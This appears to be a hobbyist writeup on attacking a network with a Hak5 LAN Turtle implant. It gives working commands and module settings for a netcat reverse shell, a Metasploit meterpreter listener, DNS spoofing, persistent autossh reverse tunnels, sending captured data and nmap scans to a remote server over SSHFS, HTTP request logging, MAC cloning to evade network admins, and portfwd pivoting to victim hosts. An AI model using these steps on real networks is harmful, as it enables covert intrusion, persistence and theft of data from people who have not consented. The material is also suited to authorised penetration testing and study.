 This is a writeup for some of the functionallities for a Lan Turtle from Hack5.

Starting off, just a quick explanation to what a Lan Turtle is, it is two ethernet adapters. If you run an “ifconfig” you will see a “eth0” to “eth1”. There is an ethernet adapter on there, and an ethernet to usb adapter. Essentially, the 

#Shell

One of the basic things is to drop a shell on a network. To do this we will enable the netcat-revshell (NetCat Reverse Shell). There are two types of shells, reverse and bind. The difference is with bind, it listens and you connect to it. With reverse, it broadcasts and you listen for it connects to you. 


To do this I will run a netcat-revshell module. This will run a reverse shell, so we will need to listen to connect to it. To do this, the turtle will have to be on the same vlan as the computer that is listening. You need to the ip and the port that you are going to be listening from. Then run this command to start listening.


```
netcat -l -v -p 8080
```

Netcat - Tool that we are going to be using to connect to the shell

-l - listen flag
-v - verbose flag
-p - port flag (in the example above it’s 8080)

 You will need to configure the module with the ip address and port, then start the module. Then the listener will connect and you will be in.
 
 #DNS Spoof

The first type of attack we will do is a DNS Spoof. Essentially, when a computer needs to resolve a dns name (ie khanacademy.org) it will typically search for a dns server to resolve it. Essentially we will have it use our Lan turtle as a dns server. If it doesn’t have a dns entry for the name, then it will go to the appropriate dns server. It does this since the Lan turtle receives the ip addressing information that is supposed to go to the client, and we issue ip addressing information to the computer. 

We will need to configure the DNSMasq module. Essentially we will need the ip address and url. The entry will be like the one that follows.

```
172.16.84.1 example.com www.example.com  leafy.xyz www.leafy.xyz
```

#Meterpreter Shell 

Another potential shell we could use is Meterpreter. To do this, we will set up a metasploit listener. To do that we will need the ip address of the listener and a port. For the port we will use “4444” and the ip address we will use “172.16.38.140”.

```
use exploit/multi/handler
Set payload php/meterpreter/reverse_tcp
Set LHOST 172.16.38.140
Set LPORT 4444
Exitonsession false
Exploit -j 
```

This will passively run the listener. When you close the session, it will automatically reopen the shell. Now just configure the ip address and port and start it, and enable it. Now the listener should be connected. When you exit the shell or restart the turtle it will open a new session.

This command in metasploit will list all open sessions
```
Sessions
```

This command will connect it to the session with an id of 1
```
Sessions -i 1
```

#Persistent SSH Access

To maintain persistent ssh access, you will need to establish ssh keys. Go into the key manager module, and configure it. First you will need to generate a key. Then you will need to copy that key over to the ssh server you will have access to. To do this, you will need the host, credentials to the user you will be sshing with, and the port.

It will ask you for credentials, and it will take a minute. After that it should go through. After that you can review your keys to see if it worked. Next you have to configure the autossh module. Keep in mind how this module works is it creates a tunnel between the lan turtle and the remote server. Using the keys and the user it will automatically authenticate. This will be a reverse shell.

Now you should just start and enable the module. Enabling it will make it so that it runs whenever it starts up. Keep in mind that the “Auto” in “Autossh” will just work as a frontend to ssh, essentially keeping the connection alive and restarting it if it ever gets interrupted.

Now since hopefully the connection started and is already into your remote server, from your remote server you should just have to use the following command and it should connect you to the lan turtle as root (keep in mind since you’re on the remote host you will need to use the remote port).
```
ssh root@localhost -p 2222
```

Then you should be in. To check run the following command, and you should get the Lan Turtle banner.
```
cat /etc/banner
```

#SSHFS

Storing data locally on the LAN turtle can be a bit cumbersome, and hard to retrieve. Thankfully we can transfer all of the files to our remote server securely using ssh. This will rely on Autossh being configured. To do this, go to the SSHFS module and configure it. You will need to enter in the host ip address and port, the user, and the directory that this will be stored in. You do not need to specify the password due to the ssh keys.

Now once you start the module, any files on the turtle under the “/sshfs/” directory will be transferred to the “/home/turtle” directory on the remote server. This is great for when we have data to dump from a program to the remote server, we can just treat it like a local directory. To test it out just run the following command

On the Lan turtle:
```
echo Hello Jason > /sshfs/hello.txt
```

On the remote server:
```
cat /home/turtle/hello.txt
```

And if the output is “Hello Jason” you know it works.

#URL Snarf

This module really doesn’t have much to it. You configure it to use SSHFS, run it (or enable it your funeral) and it will create a log file back in “/home/turtle/” that will contain all http requests that are passed through the turtle. It will require being in the middle to execute. You can just configure it, and test it to see what it does.

#Clomac
This module will help us stay secret. Thing is, when a network admin that is on the same lan as us runs a scan for mac addresses, he will quickly find that our device doesn’t belong. Running this module will copy the mac address of the machine were connected to so when it checks our device it will essentially not see any difference and move on (also one thing, they typically will scan an ip space, so you will probable want to configure the ip address that your turtle gives to the host machine to be different so scans like that hopefully won’t hit it, otherwise while you are running this module it will see the same device twice)

#Nmap

Since we can have Meterpreter on the Lan turtle, we can use nmap to scan the network, however we need to get a full shell on the turtle. To do this run this command.

```
shell
```

The output should resemble something like “Channel 0 created”. If you want to test it, run this command

```
id
```

And the output should resemble

```
uid=0(root) gid=0(root) groups=0(root)
```

Now to get the shell looking like normal we can get python to spawn a new bash shell by using the following command.

```
python -c ‘import pty;pty.spawn(”/bin/bash”)’
```

Now the shell should look like

```
bash-4.2#
```

Now we are ready to use nmap. To run a quick scan (most common 100 ports) on the 192.168.1 subnet block with a 24 bit subnet mask and have the data sent over to our remote server, run the following command.

```
nmap -F 192.168.1.0/24 > /sshfs/nmap.txt
```

#Metasploit (continued off of Nmap)

Now to run Metasploit. We don't have direct access to the network to run metasploit. However there is an awesome forwarding traffic command “portfwd”. We will need to exit the full shell that we used to run map and return to the meterpreter shell by pressing “Ctrl” + “c”. Once we are back at the meterpreter shell, we can port forward to the system. Let’s say we are exploiting ssh (port 22) on a computer with an ip of 19.168.1.54 and we want to send data to the turtle to port 143, we would use the following command.

```
portfwd add -l 143 -p 22 -r 192.168.1.51
```

So now we can go back to our original metasploit console in Kali, and set the RHost and RPort to the address of the turtle and the port that is being forwarded to the victim. Essentially all this is doing is all traffic the Lan Turtle gets over 143 is being sent to 192.168.1.51 over port 22, so essentially it allows us to run Metasploit on the victim computer through the lan turtle.








